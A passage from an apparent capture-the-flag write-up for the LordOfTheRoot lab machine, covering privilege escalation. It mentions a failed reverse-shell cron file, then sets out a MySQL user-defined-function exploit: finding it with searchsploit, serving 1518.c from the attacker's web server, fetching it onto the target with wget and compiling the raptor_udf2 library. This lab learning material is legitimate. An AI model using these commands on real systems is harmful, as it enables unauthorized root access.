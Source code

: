 As we can see our reverse shell was written as root, but it doesn't is executed.

```console
smeagol@LordOfTheRoot:~$ ls -la /etc/cron.d/back.door -rw-rw-rw- 1 root
root 80 Nov 03 06:06 /etc/cron.d/back.door 
```

### MySQL User Defined Functions

This version of MySQL is affected by a vulnerability that allows users to run user-defined functions to execute commands in the context of MySQL, which in this case is root. access to MySQL as the root user is required.

```console
smeagol@LordOfTheRoot:~$ mysql --version 
mysql Ver 14.14 Distrib 5.5.44, for debian-linux-gnu (i686) using readline 6.3 
```

As we know the MySQL credentials and this is running as root only we just to look for a UDF exploit, there is an article how to exploit UDF [here](https://medium.com/r3d-buck3t/privilege-escalation-with-mysql-user-defined-functions-996ef7d5ceaf).

```console
root@kali:~$ searchsploit mysql udf local
------------------------------------------------------------------------------------ -------------------------
 Exploit Title                                                                      |  Path
------------------------------------------------------------------------------------ -------------------------
MySQL 4.0.17 (Linux) - User-Defined Function (UDF) Dynamic Library (1)              | linux/local/1181.c
MySQL 4.x/5.0 (Linux) - User-Defined Function (UDF) Dynamic Library (2)             | linux/local/1518.c
MySQL 4/5/6 - UDF for Command Execution                                             | linux/local/7856.txt
------------------------------------------------------------------------------------ -------------------------
```

I copied the 1518.c exploit to my current directory, moved it to the web root, and started the apache service.

```console
root@kali:~$ searchsploit -m linux/local/1518.c
root@kali:~$ mv 1518.c /var/www/html
root@kali:~$ systemctl start apache2.service
```

On the target machine we download the UDF exploit, we compile it and create the shared library.

```console
smeagol@LordOfTheRoot:~$ wget 192.168.179.1/1518.c
smeagol@LordOfTheRoot:~$ gcc -g -c 1518.c -o raptor_udf2.o -fPIC
smeagol@LordOfTheRoot:~$ gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
```
